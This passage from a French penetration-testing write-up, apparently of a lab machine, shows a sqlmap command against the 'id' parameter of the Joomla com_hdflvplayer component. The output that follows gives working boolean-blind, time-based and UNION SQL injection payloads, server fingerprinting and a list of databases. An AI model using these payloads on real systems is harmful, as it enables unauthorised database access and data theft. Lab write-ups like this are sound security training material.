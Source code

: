 ```bash
python sqlmap.py -u "http://192.168.56.94:13370/index.php?option=com_hdflvplayer&id=4" -p id --dbms mysql  --risk 3 --level 5
```

On est dans les meilleurs circonstances pour l'exploitation :

```
[22:25:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:25:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:25:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:25:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:25:57] [INFO] target URL appears to have 22 columns in query
[22:26:00] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 102 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: option=com_hdflvplayer&id=4 AND 6962=6962

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_hdflvplayer&id=4 AND (SELECT 4787 FROM (SELECT(SLEEP(5)))DbDB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 22 columns
    Payload: option=com_hdflvplayer&id=-2420 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a767671,0x784d4a7a76444f7952514c49746b765a514372584648507a4f416f576e644b41654f62445a54637a,0x7162717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[22:26:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 14.10 or 15.04 (utopic or vivid)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.0.12
```

Obtenir les dumps va donc très vite, par exemple la liste des bases de données :

```
available databases [6]:                                                                                                                                                                                         
[*] fuku
[*] fuku2
[*] information_schema
[*] mysql
[*] performance_schema
[*] tacacs
```
